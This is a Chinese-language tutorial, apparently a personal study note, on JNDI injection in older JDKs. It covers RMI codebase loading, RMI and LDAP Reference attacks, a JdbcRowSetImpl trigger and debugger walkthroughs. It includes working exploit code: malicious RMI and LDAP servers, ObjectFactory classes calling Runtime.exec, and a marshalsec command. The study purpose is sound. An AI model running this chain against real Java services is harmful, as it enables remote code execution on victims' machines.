## JNDI注入原理和手段（低版本）

### 原理：

​		首先还是我们讲讲RMI，在前面RMI的实例中，RMI服务端绑定一个远程对象到RMI的注册中心，包括注册名和一个远程对象的存根(也叫骨架)，客户端通过地址访问RMI的注册中心，然后`lookup`一个`注册名`，与RMI服务端进行交互，拿到一个远程对象的存根(存根里包括远程对象的接口名，ObjID,和监听的地址)，就可以直接去调用一个远程对象的方法。

​		而在我们利用CC链打RMI服务端的例子中，因为RMI客户端和服务端交互是remote对象，而且会进行序列化和反序列化传输数据的。就在客户端构造一个恶意的remote对象(结合了一个动态代理)，然后`rebind`,将客户端的`remote`对象传给服务端`register`注册中心中，从而实现RCE.

​		进入正题，JNDI的定义就是命名服务和目录服务的接口，得Java应用程序可以和这些命名服务和目录服务之间进行交互。RMI注册表服务提供程序（RMI Registry Service Provider）允许通过JNDI应用接口对RMI中注册的远程对象进行访问操作。还有`LDAP`.

​		对`RMI核心特点的理解`:

>RMI核心特点之一就是动态类加载，如果当前JVM中没有某个类的定义，它可以从远程URL去下载这个类的class，动态加载的对象class文件可以使用Web服务的方式进行托管。这可以动态的扩展远程应用的功能，RMI注册表上可以动态的加载绑定多个RMI应用。对于客户端而言，服务端返回值也可能是一些子类的对象实例，而客户端并没有这些子类的class文件，如果需要客户端正确调用这些子类中被重写的方法，则同样需要有运行时动态加载额外类的能力。客户端使用了与RMI注册表相同的机制。RMI服务端将URL传递给客户端，客户端通过HTTP请求下载这些类。

因此相当于利用RMI去动态加载类。RMI服务那里绑定了一个对象，然后通过`JNDI` 去获取RMI对应的绑定的那个对象。	

但是跟纯的RMI操作方式有很大区别。在纯RMI操作中，如果RMI绑定的类的`exec`方法的作用是命令执行弹出计算器，那么得到RMI的那个对象后然后调用`exec`方法，不是本地弹计算器，还是远程的RMI服务器那里弹计算器。

如果我们需要在攻击客户端，就利用到了`JNDI注入`

>在JNDI服务中，RMI服务端除了直接绑定远程对象之外，还可以通过References类来绑定一个外部的远程对象（当前名称目录系统之外的对象）。绑定了Reference之后，服务端会先通过Referenceable.getReference()获取绑定对象的引用，并且在目录中保存。当客户端在lookup()查找这个远程对象时，服务端返回了一个远程对象的引用，客户端根据会获取相应的object factory，最终通过factory类将reference转换为具体的对象实例。

当有客户端通过 lookup("xxxxx") 获取远程对象时，获得到一个 Reference 类的存根，由于获取的是一个 Reference 实例，客户端会首先去本地的 CLASSPATH 去寻找被标识为 refClassName 的类，如果本地未找到，则会去请求 http://example.com:12345/refClassName.class 动态加载 classes 并调用 insClassName 的构造函数。

其实不只是构造函数，简单点说是构造方法、静态代码块、getObjectInstance()方法等方法都可以，所以这些地方都可以写入恶意代码。而且这个调用是在客户端，而不是在服务端。这就实现了客户端的命令执行。

### 限制



### 恶意RMI Remote类

#### 原理

codebase是一个URL、引导JVM查找类的地址

Client在lookup加载过程中会先在本地寻找Stub类，如果没有找到就向codebase远程加载Stub类。

若设置codebase为http://foo.com，加载com.test.Test类时便会下载http://foo.com/com/test/Test.class

那么只要控制Server端的codebase（修改Client端的codebase地址），就能给Client完成注入。

#### 注入步骤

1.攻击者将恶意Remote对象绑定到Server端的Registry
2.Remote类放在服务器上，然后设置Server端的codebase地址（java.rmi.server.codebase属性）
3.Client在lookup时找不到该类就会向远程codebase加载恶意Remote对象

#### 限制

官方基于此攻击手法设置了防御手段，必须满足以下条件才能完成攻击：

`java.rmi.server.useCodebaseOnly为false`

> 从5u45、6u45、7u21、8u121开始，java.rmi.server.useCodebaseOnly的默认值就是true。当该值为true时，将禁用自动加载远程类文件，仅从CLASSPATH和当前VM的java.rmi.server.codebase 指定路径加载类文件。

###  RMI + Reference

上面那个是直接把`恶意的remote对象`放在服务端，下面这个是利用`Reference`绑定了外部的对象，实现一个`JNDI`注入

####  原理:

给`RMIServer`绑定Reference对象，当`RMIClient`通过`JNDI服务的lookup方法`，获取这个对象发现是Reference类型时，RMI服务会返回一个JNDI Naming Reference，受害者解码Reference时会去我们指定的Codebase远程地址加载Factory类，调用getObjectInstance方法，从而实现攻击。这是去加载恶意工厂类实现RCE。当然也可以通过加载一个自定义的恶意类，从而实现一个RCE。

####  实例

**server服务端：**

```java
package JNDI;

import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class server {
    public static void main(String[] args) throws Exception {
        String url = "http://127.0.0.1:1098/";
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference reference = new Reference("Evil", "Evil", url);
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        registry.bind("hack",referenceWrapper);
        System.out.println("server running");
    }
}

```

```java
public Reference(String className, String factory, String factoryLocation) {
        this(className);
        classFactory = factory;
        classFactoryLocation = factoryLocation;
    }
```

第一个`className`用处不大，第二个参数`factory`是用来指定类名的，第三个参数就是当`CLASSPATH`找不到指定的类的时候，去搜索的远程URL路径了。

**client客户端：**

```java
package JNDI;

import javax.naming.InitialContext;

public class client {
    public static void main(String[] args) throws Exception{
        String url = "rmi://127.0.0.1:1099/hack";
        InitialContext initialContext = new InitialContext();
        initialContext.lookup(url);
        System.out.println("client running");
    }
}

```

初始化一个`JNDI`接口，然后将RMI的url传给`lookup`,获取`reference`绑定的一个远程对象。

**恶意的远程对象**

利用恶意的对象工厂：

创建对象工厂需要实现ObjectFactory接口的getObjectInstance方法，在这个方法中插入恶意代码即可

```java
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.util.Hashtable;

public class Evil implements ObjectFactory {

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        System.out.println("hacker");
        Runtime.getRuntime().exec("calc");
        return null;
    }
}
```

需要将`Evil.java`利用javac编译成`Evil.class`

注意：javac的java版本必须和server，client的java版本一样,而且不需要包名




当然也可以利用恶意类

```java
public class Evil {
    public Evil() throws Exception{
        Runtime.getRuntime().exec("calc");
    }
}

```



#### 调试过程

进入`InitialContext`的lookup

继续进入GenericURLContext



`RegisterContext`的lookup



根据存根拿到远程的类



调用远程类的`getObjectInstance`方法



而利用构造方法的恶意类：

在`getObjectFactoryFromReference`这个方法中触发的



static的恶意类是在`VersionHelper12`触发的



#### 限制

>JDK 6u132, JDK 7u122, JDK 8u113 中Java提升了JNDI 限制了Naming/Directory服务中JNDI Reference远程加载Object Factory类的特性。系统属性 com.sun.jndi.rmi.object.trustURLCodebase、com.sun.jndi.cosnaming.object.trustURLCodebase 的默认值变为false

#### marshalsec构建恶意rmi服务

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://127.0.0.1:1098/#EvilObjectFactory 1099
```



#### JdbcRowSetImpl触发注入

payload:

```java
JdbcRowSetImpl jdbcRowSet=new JdbcRowSetImpl();
jdbcRowSet.setDataSourceName("rmi://127.0.0.1:1099/hack");
jdbcRowSet.execute();
```

跟一下就知道了：

`execute`->`prepare()`->`connect()`

因为第一个连接`this.conn`为空，我们将`DataSourceName`设置为`rmi://127.0.0.1:1099/hack`

创建一个`JNDI服务`，直接通过lookup访问rmi服务端



####  debug跟踪一下



进入：



根据注册名获取一个存根



看下面的`decodeObject`函数：




进入`NamingManager`:

重点是下面的代码





先直接加载类`clas = helper.loadClass(factoryName);`，这里就是正常的本地类加载，因为找不到Evil类所以会加载失败。

代码往下执行，在`codebase = ref.getFactoryClassLocation()`中出现了`codebase`。`getFactoryClassLocation`可以获取我们的URL：http://127.0.0.1:1098/，所以codebase也就是所谓的远程URL。

然后在这个URL的基础上去找我们的字节码文件（Evil.class）：

`clas = helper.loadClass(factoryName, codebase);`
因为指定了codebase，这次用的类加载器将是URLClassLoader，最后在这里加载：

        Class<?> cls = Class.forName(className, true, cl);
        return cls;

调用Class.forName并制定了类加载来加载类，这样可以加载到http://127.0.0.1:1098/Evil.class。再联想一下之前的知识，Class.forName加载类且第二个参数是true（默认也是true）会进行类的加载，也就是静态代码块。因此这时候静态代码块的代码可以执行。

成功加载到了`clas`后，再`return (clas != null) ? (ObjectFactory) clas.newInstance() : null;`，调用它的newInstance()，从而调用了无参构造器，执行了无参构造器里面的代码，这也是为什么我们把恶意代码写到无参构造器里面的原因。

如果得到了对象且成功转换成了ObjectFactory，就会调用getObjectInstance方法，这也是为什么可以把代码写到getObjectInstance方法的原因。不过这个有限制，就是我们的恶意类可以转换成ObjectFactory，才可以继续执行不抛出异常。所以如果要利用这个方法的话，恶意类需要继承ObjectFactory才行。

### LDAP + Reference

#### 原理

原理与RMI协议基本一致

>除了RMI服务之外，JNDI还可以对接LDAP服务，且LDAP也能返回JNDI Reference对象，利用过程与上面RMI Reference基本一致，只是lookup()中的URL为一个LDAP地址如ldap://xxx/xxx，由攻击者控制的LDAP服务端返回一个恶意的JNDI Reference对象。
>
>注意一点就是，LDAP+Reference的技巧远程加载Factory类不受RMI+Reference中的com.sun.jndi.rmi.object.trustURLCodebase、com.sun.jndi.cosnaming.object.trustURLCodebase等属性的限制，所以适用范围更广。

LDAP服务器可以返回恶意工厂，通过以下字段指定：

>entry.addAttribute("javaClassName", "a");
>entry.addAttribute("javaFactory", "a");
>entry.addAttribute("javaCodeBase", url);
>entry.addAttribute("objectClass", "b");


maven依赖

```xml
<dependency>
    <groupId>com.unboundid</groupId>
    <artifactId>unboundid-ldapsdk</artifactId>
    <version>3.1.1</version>
    <scope>test</scope>
</dependency>
```

####  实例

```java
package JNDI;

import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;

import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.net.InetAddress;

public class LdapServer {
    public static void main(String[] args) throws Exception {
        //定义一个监听选项
        InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig("dc=example,dc=com");
        //配置监听选项config，ip地址，端口
        config.setListenerConfigs(new InMemoryListenerConfig(
                "listen",
                InetAddress.getByName("127.0.0.1"),
                1234,
                ServerSocketFactory.getDefault(),
                SocketFactory.getDefault(),
                (SSLSocketFactory) SSLSocketFactory.getDefault()
        ));
        //创建一个Ldap的操作拦截器
        config.addInMemoryOperationInterceptor(new OperationInterceptor());
        InMemoryDirectoryServer directoryServer = new InMemoryDirectoryServer(config);
        directoryServer.startListening();
   
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor{
        @Override
        public void processSearchResult(InMemoryInterceptedSearchResult result) {
            String base = result.getRequest().getBaseDN();
            //恶意类的位置
            String className = "evil";
            String url = "http://127.0.0.1:1098/";

            Entry entry = new Entry(base);
            entry.addAttribute("javaClassName", className);
            entry.addAttribute("javaFactory", className);
            entry.addAttribute("javaCodeBase", url);
            entry.addAttribute("objectClass", "javaNamingReference");

            try {
                result.sendSearchEntry(entry);
                result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
            }catch (Exception e){
                e.printStackTrace();
            }
        }
    }
}


```

client客户端：

```java
package JNDI;

import javax.naming.InitialContext;

public class LdapClient {
    public static void main(String[] args) throws Exception {
        InitialContext context = new InitialContext();
        context.lookup("ldap://127.0.0.1:1234/hack");
    }
}


```

#### 调试过程

